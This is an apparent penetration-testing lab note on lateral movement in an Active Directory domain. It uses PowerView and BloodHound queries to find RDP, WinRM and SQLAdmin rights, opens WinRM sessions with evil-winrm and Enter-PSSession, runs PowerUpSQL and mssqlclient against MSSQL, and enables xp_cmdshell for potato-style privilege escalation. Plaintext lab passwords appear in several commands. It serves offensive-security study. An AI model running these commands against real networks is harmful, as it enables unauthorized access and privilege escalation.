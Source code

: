 ## Moving around a Domain 
RDP
[Powershell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2)
	Windows Remote management
MSSQL Server. 

**Priviliges to look for **
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### RDP 
Sometimes you may not have admin rights but can RDP to another machine
#### using Powerview 
```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
Be able to see what users can RDP to this host.
#### Bloodhound 
![[Pasted image 20230817151100.png]]
### WinRM
#### PowerView
```powershell
 Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```
Remote Management Users was to enable WinRM without local admin access.

#### BloodHound
Custom cypher query
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```
Add as a custom query
![[Pasted image 20230817151518.png]]

#### Establishing WinRm Sessions from Windows 
```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force

$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)

Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```
#### From Linux
```shell
evil-winrm -i 10.129.201.234 -u forend
```

### SQL Server Admins
#### Bloodhound Custom Query 
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
#### Connecting the MSSQL
##### PowerUp SQL Windows
Hunt for SQL server Instances
```powershell
cd .\PowerUpSQL\

Import-Module .\PowerUpSQL.ps1
```

```powershell
Get-SQLInstanceDomain
```
Authenticate against MSQQL Services 
```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

##### MSSQL Client Linux
```shell
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```
#### SeImpersonate 
```shell
enable_xp_cmdshell
```
JuciyPotato, PrintSpoofer, RoguePotato etc.
```shell
xp_cmdshell whoami /priv
```